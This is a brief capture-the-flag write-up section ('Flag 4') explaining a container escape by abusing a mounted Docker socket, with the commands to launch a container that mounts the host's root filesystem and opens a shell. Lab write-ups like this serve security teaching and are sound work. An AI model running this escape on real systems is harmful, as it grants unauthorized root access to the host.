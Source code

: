 ![984d1e7448320c6088ea70dd34757f28.png](./_resources/984d1e7448320c6088ea70dd34757f28.png)
# Flag 4

Sicne the docker socket is mounted inside the container, we can interact with the docker engine and escape the container by abusing it.

```bash
docker images # choose any of these
docker run -v /:/host --rm -it <REPOSITORY>:<TAG> bash
```

1. We are basically running the container
2. Mounting the `/` directory of **the host** into this container under the path  `/host`
3. Then we are executing `bash` to interact with the container  
    ![a9ca05718fd7feea8380148a1ff8615a.png](./_resources/a9ca05718fd7feea8380148a1ff8615a.png)
